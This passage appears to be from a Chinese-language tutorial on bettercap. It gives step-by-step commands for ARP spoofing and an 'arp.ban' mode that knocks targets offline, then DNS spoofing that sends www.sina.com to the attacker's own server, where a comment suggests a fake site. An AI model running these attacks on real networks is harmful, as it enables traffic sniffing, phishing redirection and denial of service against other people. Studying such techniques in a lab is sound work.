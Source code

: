 > arp.spoof  on :   开启ARP欺骗
> arp.ban  on ：    开启ARP欺骗，用ban模式，即目标将不能上网，也就是断网攻击
> arp.spoof off ：   停止ARP欺骗 
> arp.ban off :    停止ARP欺骗
> \# 参数
> arp.spoof.internal：  如果为true，那么网络中的计算机之间的本地连接将被欺骗，否则只能连接到来自外部网络(默认为false)
> arp.spoof.targets：  要欺骗的目标，可以是 ip 、mac 或者 别名 ，也可以支持nmap形式的ip区域
> arp.spoof.whitelist： 白名单，就是不欺骗的目标，可以是ip、mac或者别名

对于参数可以使用 set 来设置，使用 get 来获取

> \# 设置攻击目标，可以是一个网段如：192.168.100.1-20 多个地址使用逗号隔开。留空则默认为欺骗整个网段所有主机。否则仅对指定的目标进行欺骗。
>
> set arp.spoof.targets 192.168.100.2 
> get arp.spoof.targets        # 获取 arp.spoof.targets 的值

设置好参数后就可以开启 ARP 欺骗

> arp.spoof on

验证

> 通过 net.sniff 可以嗅探到目标机的浏览数据
> 通过 wireshark 抓包可以发现大量的来自目标机的流量
> 查看目标机的 arp 缓存表，发现网关的 mac 已经被修改为 kali（攻击机的mac）



### DNS 欺骗

DNS欺骗有一个前提，就是局域网内的主机的DNS服务器是局域网的网关，才能进行欺骗。如果是公网的DNS就不行了。
DNS欺骗之前我们需要利用ARP欺骗让目标机认为网关就是我们（攻击机），所以主机就会向我们发送DNS请求，这样就可以进行DNS欺骗了。

首先进行 ARP 欺骗

> set arp.spoof.targets 192.168.100.2
> arp.spoof on

然后进行 DNS 欺骗

> \# 设置要欺骗的域名，多个域名用逗号隔开，如果要欺骗所有域名用通配符 *
> set dns.spoof.domains www.sina.com
>
> 
>
> \# 设置将要欺骗的域名转换成的ip
> \# 可以设置成我们自己的服务器，里面写上一个假的网站做些不可描述的东西
> set dns.spoof.address 172.20.10.12 
>
> 
>
> \# 开启DNS欺骗
> dns.spoof on  

如图所示，ping www.sina.com 时目标机直接向我们发起请求。打新浪首页进入的是我们自己的网站。

![img](./assets/3991c3751332407e8fa0f18cd8967e5b.png)
